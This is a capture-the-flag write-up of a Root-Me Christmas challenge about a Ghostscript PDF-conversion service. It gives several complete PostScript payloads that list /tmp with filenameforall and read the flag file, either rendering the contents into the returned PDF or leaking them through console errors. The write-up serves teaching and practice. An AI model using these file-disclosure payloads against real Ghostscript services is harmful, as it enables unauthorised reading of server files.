




# Day 18 - Ghost in the shell

- Category: Misc
- Difficulty: Easy
- Format: Blackbox

## Description

Santa noticed that there was no online PDF creation service. As he's a bit ‘old school’ he decided to create a PDF creation service based on Ghostscript. It's simple, you send him a Ghostscript script and he converts your work into a PDF!

How it works is simple:

```bash
$ cat hello.gs
%!PS
/newfont /Helvetica findfont 12 scalefont setfont
100 700 moveto
(Hello, world merry Christmas) show
showpage

$ cat hello.gs | socat - TCP:dyn-01.xmas.root-me.org:PORT
```

Decode the base64 in PDF file and enjoy your document!

Your goal is to get the flag in ``/tmp/flag-<RANDOM>.txt`

## Writeup

**TLDR: Ghostscript, feature allow to list and read files in /tmp**

There are several possible approaches to solving the challenge. The basic idea is to send a Ghostscript script to the server in order to abuse certain mechanisms of the tool, which has particular permissions in /tmp. That's where the flag fell.

However, we don't know the file name, so we'll have to find a way of retrieving the file names from /tmp.

### Leak filenames in /tmp

It is possible to write a Ghostscript script that : 
- List the /tmp and display the output in the returned PDF file

or

- List the /tmp and trigger an error to get the stacktrace output in the TCP tunnel

1. List /tmp in PDF :

```bash
%!PS
% Configure directory to list
/target_directory (/tmp/*) def

% Page setup
/lineheight 12 def
/xpos 50 def
/ypos 800 def
/Courier findfont 10 scalefont setfont

% Move to new line
/newline {
    /ypos ypos lineheight sub def
    ypos 0 lt {
        showpage
        /ypos 800 def
    } if
    xpos ypos moveto
} def

% List files and print them
target_directory {
    /curFileName exch def
    xpos ypos moveto
    curFileName show
    newline
} 4096 string filenameforall

showpage
```

Once the script sent and the base64 decoded we get the filenames in /tmp :



The other way is to abuse the console output to leak the data here :

```bash
%!PS

(/tmp/*) { = } 1024 string filenameforall
/newfont /Helvetica findfont 12 scalefont setfont
100 700 moveto
(Hello, world merry Christmas) show
showpage
```



### Read files in /tmp

Now we now the flag is in `/tmp/flag-9fb215456edeadc855c755846be83cc310a5d262aa5d9360dd27db9cd0141a9d.txt` we can abus Ghostscript mechanism to read it.

As previously we can read and write it in PDF, or to print it in console output.

- Write to PDF

```bash
%!PS

% Set font and position
/newfont /Helvetica findfont 12 scalefont setfont
100 700 moveto

% Open the specific file
(/tmp/flag-9fb215456edeadc855c755846be83cc310a5d262aa5d9360dd27db9cd0141a9d.txt) (r) file
% Read a string from it
1000 string readstring
% Write that string in the page
pop show

showpage
```

In the PDF : 



- Leak through error messages

```bash
%!PS

(/tmp/flag-9fb215456edeadc855c755846be83cc310a5d262aa5d9360dd27db9cd0141a9d.txt) (r) file 1024 string readstring pop =
/newfont /Helvetica findfont 12 scalefont setfont
100 700 moveto
(Hello, world merry Christmas) show
showpage
```

Output : 



### Bonus

Nikost find a smart way to do a forEach loop in /tmp and print the flag. So it's working one shot : 

```bash
%!PS
% Set font and position
/newfont /Helvetica findfont 12 scalefont setfont
100 700 moveto
% For each filename like /tmp/flag*
(/tmp/flag*) {
    % Open the file
    (r) file
    % Read a string from it
    1000 string readstring
    % Write that string in the page
    pop show
} 1000 string filenameforall
showpage
```